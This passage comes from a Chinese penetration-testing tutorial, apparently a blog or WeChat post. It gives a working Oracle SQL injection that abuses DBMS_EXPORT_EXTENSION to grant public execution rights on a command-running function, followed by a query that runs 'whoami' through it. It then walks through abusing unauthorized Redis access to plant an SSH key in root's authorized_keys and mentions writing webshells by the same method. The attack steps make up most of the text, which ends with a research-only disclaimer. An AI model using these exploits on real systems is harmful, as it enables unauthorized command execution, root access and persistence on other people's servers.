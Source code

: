 ```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

5. 使用：

```
select sys.LinxRunCMD('whoami') from dual
```

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZPMM7QceoUfbx2O2auayRiaej8g9UiciagHPtmHOgtZV49libwOZo1OofHQ/640?wx_fmt=png)

接下来就是愉快的上线环节。

✔ 0x04 未授权访问 redis 利用 SSH key  

--------------------------------

实战很少能用，一般遇到的 redis 权限都比较低，内网较多。  

#### 4.1 前提

需要高权限 redis 账户，能对目标文件夹写入操作。

#### 4.2 开淦

在本地生成 rsa 密钥对：

1. 在 / root/.ssh 目录运行`ssh-keygen -t rsa`命令，然后一直回车，得到 rsa 密钥对。

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZ272Ja1frnxyxrFks2PUQIibFcHGU2Y8XiaicNVFn5yKDGrAPKzEwZWyLQ/640?wx_fmt=png)

2. 将公钥 id-rsa.pub 写入目标机 / root/.ssh 目录下的 authorized_keys 文件中：

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZCvH6rOApibUHwfzliatWXT9mTwqjXeuiaicFuXaypS4pHoVibf4sVEg0Nyw/640?wx_fmt=png)

3. 直接在. ssh 目录下尝试用 rsa 文件连接目标机：

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZp2DicY9DtJYPQ6kFB1SvK699fOOSBDJhuicpibsnfZK2CyuPqgRbm1icrQ/640?wx_fmt=png)

成功，开始为所欲为。

**可以利用相似的方法写入 webshell，前提是知道绝对路径**

✔ 0x05 参考  

------------

Oracle 注入 - 命令执行 & Shell 反弹

https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/  

**免责声明：本文仅供安全研究与讨论之用，严禁用于非法用途，违者后果自负。**

公众号

来都来了，不关注一波？